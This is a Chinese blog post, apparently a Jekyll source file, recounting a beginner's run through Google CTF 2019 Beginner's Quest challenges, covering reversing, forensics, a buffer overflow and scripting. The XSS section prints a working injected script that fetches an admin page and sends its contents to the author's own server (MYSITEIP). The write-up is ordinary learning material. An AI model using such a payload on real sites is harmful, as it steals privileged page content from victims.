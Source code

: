 ```yaml
---
layout: post
title: Google CTF 2019 初学者挑战之从入门到放弃
author: enh6
categories: blog
---
```


所谓CTF，全称[Capture the Flag](https://en.wikipedia.org/wiki/Capture_the_flag#Computer_security)，是信息安全圈子里玩的一个比赛，以前看新闻注意到过这种活动，觉得很高端的样子。毕竟作为一个程序员，谁没有曾经想成为一个<del>大黑客</del>script kiddie呢？🐶

上周我又偶然看到了Google CTF 2019的新闻，发现有[`Beginner's Quest`](https://capturetheflag.withgoogle.com/#beginners/)，勾起了我的兴趣，于是不禁掺和了一番。

{% include image.html title="google ctf" img="google-ctf.png" caption="题目难度分为最简单，更简单，简单，中等🤔" %}

由于我以前没玩过CTF，所以并不知道要怎么玩，后来进行不下去的时候也参考了别人的write-up。这里我也把过程记录一下吧。

## Enter Space-Time Coordinates

给了一个文件，用记事本打开就能看到有`CTF{welcome_to_googlectf}`字段，然而我并不懂CTF是怎么玩的，不知道这是什么意思。。然后把头几个字节的`hex`搜了一下，发现是个`zip`格式文件。解压后是一个`ELF`可执行文件，程序可以输入坐标，输出坐标是否正确。然后用`objdump`看汇编代码也看不懂逻辑。然后用`strings`看到的还是那几个记事本打开就能看到的字符串。最后试了`CTF{...}`字段，居然还真是这个。。

收获：知道了CTF是怎么玩的了

## Satellite

给了一个`go`写的程序，首先要输入一个正确的名字，用了`go tool objdump`，找到`main`函数跳到`connectToSat`之前的判断的位置`init_sat.go:21`，感觉是输入的字符串和立即数做比较，比较7个字节，分别是`'imso'`，`'mu'`和`'\n'`，但是输入`imsomu`却不对，然后`gdb`调试，打印比较时输入字符串的值，发现是字节序的问题，应该是`osmium`。（后来回头看了题目，直接告诉了名字就是`Osmium`，我尼玛。。。）

输入正确的名字后，会发送网络请求返回一些东西，提示用`wireshark`嗅探，然而我研究搜索了半天也没发现怎么能解密`TLS`加密的内容，只能看到加密的`TLS`包。

后来想到在程序中总能看到拿到的数据吧，重新看汇编，`connectToSat`里用到了`regexp.ReplaceAllStrings`，而且返回的请求会显示一些`******`字样，而`strings`能看到有`CTF{\S{40}}`字符串。猜测是返回的数据包含`CTF{...}`，后来给替换掉了。于是继续`gdb`在`regexp`函数调用前加断点，然后检查压栈传参都传的什么参数，终于看到了替换前的字符串`CTF{4efcc72090af28fd33a2118985541f92e793477f}`。

收获：学到了`gdb`调二进制的一些知识，怎么看汇编指令，怎么看寄存器和内存，怎么汇编指令单步执行。

## Home Computer

这一关就没什么意思了。给了一个`NTFS`的`image`，`mount`了以后发现文件都是空的只有一个`txt`有内容，说是要看`NTFS`的`extended attributes`，但是这玩意儿怎么看呢，搜索一番，安装了取证工具`Sleuth Kit`，是个命令行工具，没搞清用法。于是又装了一个`GUI`叫`Autopsy`，算是能用了，找到了在`extended attributes`里藏的一张图里的`CTF{congratsyoufoundmycreds}`。

收获：无。我对这种取证工具[并没有什么好印象](https://www.google.com/search?q=mfsocket)。

## Government Agriculture Network

给了一个网站，有个admin页面但会跳转到主页，主页有个输入框可以post内容，提交了说admin会审核。研究了半天不知道是干嘛的。。不得已在网上找提示，发现有个人在twitch上直播解题，看了一下录像，才貌似明白了。（其实题目的url也说了是XSS，但我笔记本上Firefox地址栏的长度过短导致没看到，我尼玛。。）

题目的意思是输入可以XSS，admin审核的时候就中招了。但要跨站注入，我得首先有个站，不得已注册了DigitalOcean开了个VPS。还好可以按小时计费，花不了几毛钱，而且新用户也送$50等于免费。<del>（是不是要放个推广返利链接。。🤔）</del>。然后直接`python3 -m http.server 80`完事儿。

试了下`POST`一个`<img>`，确实日志里就能看到有访问。于是注入了下面这个脚本，拿到了admin页面里的`CTF{8aaa2f34b392b415601804c2f5f0f24e}`。

```
<script>
fetch('/admin').then(r => r.text()).then(t => {
var img = new Image();
img.src = 'http://MYSITEIP/' + encodeURIComponent(t);
});
</script>
```

收获：DigitalOcean账户一枚？？？

## STOP GAN (bof)

<del>给了一个MIPS的可执行文件，可以用`qemu`执行。要通过缓冲区溢出把它搞崩。</del>

我寻思这easiest的题目有这么难吗！别人写的write-up看了好几遍，才终于明白题意了，原来给的网址才是需要pwn的本体，给的附件是网址的程序的示意。亏我研究这程序个把钟头，早就能`segfault`但是一直说`could not open flag`。看汇编感觉也是从文件系统里读个玩意儿，但我自己电脑里哪来的这文件呢。

正确的打开方式是用`nc`连给的网址，然后操作。我原来用浏览器打开看了下没看出端倪，还以为只是个提示呢。只要输入一大坨字符就能缓冲区溢出显示`CTF{Why_does_cauliflower_threaten_us}`。

收获：知道了`nc`。

## Work Computer

这关也没啥意思。`nc`连网址，给了一个shell，有个flag文件，但没有`cat`等命令。看了`/bin`和`/usr/bin`，没发现啥可以显示文件内容的。后来懒得研究了，参考网上的write-up，用`tar cvf`命令显示出`CTF{4ll_D474_5h4ll_B3_Fr33}`。

收获：无。

## FriendSpaceBookPlusAllAccessRedPremium.com

这一题还挺有意思的。给了一个emoji组成的程序，一个python写的虚拟机来执行emoji。

执行会输出一个网址，但执行速度巨慢，输出几个字母就卡在那儿了。于是看执行哪里的循环比较多，是倒数第二个emoji代码块。看了好半天，觉得是naive的判断质数的算法，于是把它替换成python的筛法判断素数。这样速度快了不少，能显示出前半个网址。但后半个网址还是显示不出来，执行速度还是太慢了。

又继续看倒数第一个代码块，发现是判断回文数的。而倒数第三块调用了倒数第二和第一块。输出倒数第三个代码块的进出的数据，发现它确实是找第n个回文素数的逻辑，每执行一次，n+1，输出一个字母，只是算法过于naive和暴力🤓。于是我先算出来20000×20000内的回文素数列表，替换掉原有的逻辑，而且换用pypy3提高执行速度，终于能输出整个网址了，拿到`CTF{Peace_from_Cauli!}`。

收获：人肉解码emoji asm能力。。

## Drive to the target

给了一个网站，有一个初始坐标，你可以改动坐标，一步一步走到目的地。但问题是每一次走的距离是有限制的，速度也是有限制的，需要走很多步才行。人肉点击应该是不现实了，于是打开浏览器console，写了下面这个脚本，跑了起来。但跑了好长好长时间也没到目的地，于是再到B站刷几个视频，还没到目的地，再到TouTube刷几个视频。。最后终于还是结束了，拿到`CTF{Who_is_Tardis_Ormandy}`。

```javascript
var a = +document.getElementsByTagName('input')[0].value;
var b = +document.getElementsByTagName('input')[1].value;
var token = document.getElementsByTagName('input')[2].value;

var n = 1;

function f(a, b, token, idx) {
  fetch("/?lat=" + a + "&lon=" + b + "&token=" + token)
  .then(r => r.text()).then(t => {
    var c = t.split('\n');
    token = c[14].substr(58, 140);
    console.log(a, b, token);
    console.log(c[18]);
    if (c[18].indexOf('closer') > 0 && n == idx) {
      n++;
      setTimeout(() => {f(a, b - 0.001, token, n);}, 5000);
      setTimeout(() => {f(a, b + 0.001, token, n);}, 5000);
      setTimeout(() => {f(a + 0.0005, b, token, n);}, 5000);
      setTimeout(() => {f(a - 0.0005, b, token, n);}, 5000);
    }
  });
}

f(a, b - 0.0001, token, n);
```

收获：Script kiddie称号。

## 完结

此时还有几个分支的题目没有做，但我已经决定放弃🙂。这次算是体验了一把CTF，大概知道了CTF是怎么玩的。我也没打算向信息安全领域发展，那就先这样啦。
